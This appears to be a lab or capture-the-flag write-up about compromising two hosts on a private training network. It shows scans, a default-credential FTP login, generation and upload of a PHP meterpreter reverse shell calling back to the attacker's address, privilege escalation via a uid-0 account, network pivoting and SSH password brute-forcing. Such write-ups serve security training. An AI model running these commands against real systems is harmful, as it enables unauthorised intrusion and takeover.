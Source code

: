 # 172.16.37.234
```
Nmap scan report for 172.16.37.234
Host is up (0.077s latency).
All 1000 scanned ports on 172.16.37.234 are closed
```

No open ports means either:
- This is a client machine and we need to attack the other machine first then pivot  
*or*
- It has services running above the top 1k and we need to do an all port scan  

```
Nmap scan report for 172.16.37.234
Host is up (0.10s latency).
Not shown: 65533 closed ports
PORT      STATE SERVICE VERSION
40121/tcp open  ftp     ProFTPD 1.3.0a
40180/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Unix
```

Now we have something to work with. Running dirb on the website gives us:
```
dirb http://172.16.37.234:40180

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Thu Aug 19 11:13:42 2021
URL_BASE: http://172.16.37.234:40180/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://172.16.37.234:40180/ ----
+ http://172.16.37.234:40180/index.html (CODE:200|SIZE:11321)                  
+ http://172.16.37.234:40180/server-status (CODE:403|SIZE:304)                 
==> DIRECTORY: http://172.16.37.234:40180/xyz/                                 
                                                                               
---- Entering directory: http://172.16.37.234:40180/xyz/ ----
+ http://172.16.37.234:40180/xyz/index.php (CODE:200|SIZE:1402)
```

And FTP on that odd port shows us default ProFTPD install gave us the username and password. 
```
ftp 172.16.37.234 40121
Connected to 172.16.37.234.
220 ProFTPD 1.3.0a Server (ProFTPD Default Installation. Please use 'ftpuser' to log in.) [172.16.37.234]
Name (172.16.37.234:ghost): ftpuser
331 Password required for ftpuser.
Password:
230 User ftpuser logged in.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful
150 Opening ASCII mode data connection for file list
drwxr-xr-x   3 root     root         4096 May 20  2019 html
226 Transfer complete.
ftp> cd html
250 CWD command successful
ftp> ls
200 PORT command successful
150 Opening ASCII mode data connection for file list
-rw-r--r--   1 root     root        11321 Mar 28  2019 index.html
drwxrwxrwx   2 root     root         4096 Mar 28  2019 xyz
```
We can upload into the `xyz` directory, so let's get a shell.  
`msfvenom -p php/meterpreter_reverse_tcp lhost=10.13.37.10 lport=53 -o shell.php`

Then we upload the shell with ftp using `put shell.php`
Open meterpreter listener:
```
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set lhost 10.13.37.10
msf6 exploit(multi/handler) > set lport 53
msf6 exploit(multi/handler) > set payload php/meterpreter_reverse_tcp 
msf6 exploit(multi/handler) > run
```
And visit the shell in our browser at `http://172.16.37.234:40180/xyz/shell.php` to get our session
```
meterpreter > shell
Process 1910 created.
Channel 0 created.
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
Let's check `/etc/passwd` and we find that the ftpuser is effecitvely root with `uid 0` meaning we can `su ftpuser`
```
elsuser:x:1000:1000:elsuser,,,:/home/elsuser:/bin/bash
ftpuser:x:0:0::/home/ftpuser:/bin/bash
test:x:1001:1002::/home/test:
```
To use su we have to be in a terminal so we call `bash -i` only to get a message that `su: must be run from a terminal` -- we can correct this with a TTY shell thanks to python
```
www-data@xubuntu:/var/www/html/xyz$ python -c 'import pty;pty.spawn("/bin/bash")'
<tml/xyz$ python -c 'import pty;pty.spawn("/bin/bash")'                      
www-data@xubuntu:/var/www/html/xyz$ su ftpuser
su ftpuser
Password: ftpuser

root@xubuntu:/var/www/html/xyz# 
```

# 172.16.37.220
> I tried doing this box first but quickly found there was nothing useful until I went through `.234` first. 

Running the command nmap in our current shell shows us this is available, so if we scan the last target we find ssh is enabled

```
Nmap scan report for 172.16.50.222
Host is up (0.00013s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 53:69:70:78:f7:89:03:f1:6a:d8:cd:82:67:bd:a6:cb (RSA)
|_  256 70:9b:61:d6:ac:15:10:72:20:85:f2:7c:bd:ce:9d:39 (ECDSA)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


We need to run meterpreters autoroute to get us there: `run autoroute -s 172.16.50.0/24`

```
meterpreter > run autoroute -s 172.16.50.0/24

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
[*] Adding a route to 172.16.50.0/255.255.255.0...
[+] Added route to 172.16.50.0/255.255.255.0 via 172.16.37.234
[*] Use the -p option to list all active routes
```

next we can use `ssh_login` module to bruteforce this
```
msf6 exploit(multi/handler) > use auxiliary/scanner/ssh/ssh_login
msf6 auxiliary(scanner/ssh/ssh_login) > set rhosts 172.16.50.222
msf6 auxiliary(scanner/ssh/ssh_login) > set user_file /usr/share/ncrack/minimal.usr
msf6 auxiliary(scanner/ssh/ssh_login) > set pass_file /usr/share/ncrack/minimal.usr
msf6 auxiliary(scanner/ssh/ssh_login) > set verbose true
msf6 auxiliary(scanner/ssh/ssh_login) > run
```

and after a bit we will see 
```
[+] 172.16.50.222:22 - Success: 'root:root' 'uid=0(root) gid=0(root) groups=0(root) Linux xubuntu 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux '
[*] Command shell session 2 opened (10.13.37.10-172.16.37.234:0 -> 172.16.50.222:22) at 2021-08-19 11:52:37 -0400
```

Now we can go to this new session with `sessions -i 2` and execute `bash -i` again to get a proper looking shell. We find the flag.txt by executing `ls -la` as it is hidden with a . at the start `.flag.txt`